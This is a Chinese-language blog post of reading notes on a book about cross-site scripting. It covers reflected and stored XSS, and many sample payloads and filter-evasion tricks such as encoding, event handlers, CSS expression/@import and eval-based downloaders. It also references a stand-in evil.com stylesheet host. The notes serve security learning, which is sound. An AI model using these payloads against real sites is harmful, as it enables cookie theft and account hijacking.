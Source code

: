 ```yaml
---
Title: XSS跨站脚本攻击剖析与防御-读书笔记
author: Young
date: 2017-01-03
tags: [XSS, CS, Security, 读书笔记，跨站脚本]
---
```


初次了解cross-site scripting, 阅读完第一章第二章，感觉需要精读和理解的知识点不少，先摘抄下来，以供之后查阅。

#### 什么是xss跨站脚本？
计算机安全漏洞，web应用程序中的，是由于web应用程序对用户的输入过滤不足而产生的

#### xss的分类
反射型：主要用于将恶意脚本附加到URL地址的参数中。特点是用户点击时触发，而且只执行一次，非持久化，所以称为反射型。常出现在搜索栏，用户登入口，常用来窃取客户端Cookies或进行钓鱼欺骗

持久型：攻击者实现将恶意javascript代码上传或者存储在漏洞服务器中，只要受害者浏览包含此恶意代码的页面，就会被执行。一般出现在网站的留言，评论，博客日志等交互处。

#### 发掘
用```<textarea>```来闭合前后的对应的标记，中间写```<script>```代码，是一个典型的持久型XSS，并且在管理员查看留言时才出发，攻击的对象是后台管理员。

程序没有过滤任何有害字符，从而导致一个持久型xss的产生

#### xss的构造剖析
* 利用< >标记注射html/javascript,
 * ```<script>alert('XSS');</script>```
 * 防御：过滤< >和```<script>```字样
* 利用HTML标签属性值执行XSS 
 * ```<table background="javascript:alert(/xss/)"></table>```
 * ```<img src="javascript:alert('xss');"```
 * 防御：过滤```<javascript>```等关键字
* 空格回车Tab，一类的键位符
 * 原因比较复杂，JavaScript语句通常以分号结尾，如果javascript引擎确定一个语句是完整的，而这一行的结尾有换行符，那么可以省略分号。有时候，引擎没有把换行符解释为语句的终止符，js会继续处理发现内容，直到遇到分号或者完整语句.
 * 拆分关键字的技巧成功执行了跨站脚本代码
  
  ```
 	<img src="javas
 	cript:
 	alert(/xss/)" witdth=100>
  ```

* 对标签属性值的转码
 * t的ASCII码值是116，可以用```&#116```来表示，冒号可以用```&#58```来表示，```javascript:alert('xss');```转码后可以是```javascrip&#116&#58alert(/xss/)```
 * 防范利用HTML标签属性值编码的XSS,最好也过滤```&#\```等字符
* 产生自己的事件
 * 测试事件型的跨站脚本，还有大量的事件可以运用：

	```
<input type="button" value="click me" onclick="alert('click me')"
onResume
onReverse
onRowDelete
onSeek
...
	```

* 利用CSS跨站解析
 * CSS中的expression执行js代码；HTML标签的style属性执行js代码，如下两个例子
 * ```<dev style="width: expression(alert('xss'));">```
 * ```<div style="list-style-image:url(javascript:alert('xss'))">```
 * CSS样式表不需要嵌入到HTML代码中，他能从其他文件甚至是从不同的目标机器上进行引用；除了使用link标签外，在网页中引用外部CSS还可以利用@import将其导入；@import还有一个特性，能直接执行js代码。如下三个例子
 * ```<link rel="stylesheet" href="http://www.evil.com/attack.css">```
 * ```<style type='type/css'>@import url(http://attack.css);</style>```
 * ```<style>@import 'javascript:alert("xss")';</style>```
 * 防御：过滤包含expression,javascript,import等敏感字符的样式表

* 扰乱过滤规则
 * 大小写混淆
 * 双引号改单引号，不使用引号
 * 不同的全角字符
 * 注释字符干扰过滤器：```/**/ \  \0```等

* 字符编码，十进制&#，十六进制&#x
* JavaScript中有一个eval函数，可计算字符串并执行其中的js代码，js支持unicode,escapes，十六进制，八进制等

* 拆分跨站法：当一个评论框输入字符有限时，那么用多个来联合

#### shellcode的调用
* 除了使用```<script>```标签动态调用远程JavaScript，还可以运用基于DOM的方法创建和插入节点
* window.location.hash.substr(1),抽取#之后的字符
```
http://www.bug.com/view.php?sort="><scripteval(location.hash.substr(1))</script>#alert('xss')
```
* xss downloader,事先把shellcode写在网站的某个页面，然后利用XMLHTTP控件向网站发送http请求，post或者get，然后执行返回数据，关键点，用indexOf()函数计算BOF|和EOF|的位置，再用substring()函数方法取出字符串，最后用unescape()方法解码执行
```eval(unescape(b.substring(b.indexof('BOF|')+4, b.indexof('|EOF'))))```

* 备选存储技术,把xss shellcode存储在客户端本地域中，例如http cookie,flash共享对象，UserData, localStorage.
 * HTML5提供了两种在客户端存储数据的新方法，localStorage and sessionStorage，```window.localStorage.a```
 
 ```
 <script>
 localStorage.a="xss";
 document.write(localStorage.a);
 if (localStorage.count)
 {
 	localStorage.count=Number(localStorage.count) + 1;
 }else{
 	localStorage.count = 1;
 }
 document.write("访问次数" + localStorage.count + "times");
 </script>
 ```
 
#### cookie窃取攻击剖析
* Cookie是用户浏览网页时存储在用户机器上的小文本文件，记录了与用户相关的一些状态或者设置，例如用户名，ID，访问次数等
* Cookie的时效是一个很重要的属性，持久型Cookie以文本形式存储在硬盘上由浏览器存取，临时型Cookie也称为会话Cookie，存储在内存中，关闭浏览器的时候消失
* 若要创建一个cookie，把特定格式的字符串赋值给document.cookie

#### 会话劫持剖析
* Session和Cookie的最大区别在于，Session是保存在服务器的内存里，而Cookie保存于浏览器或客户端文件里面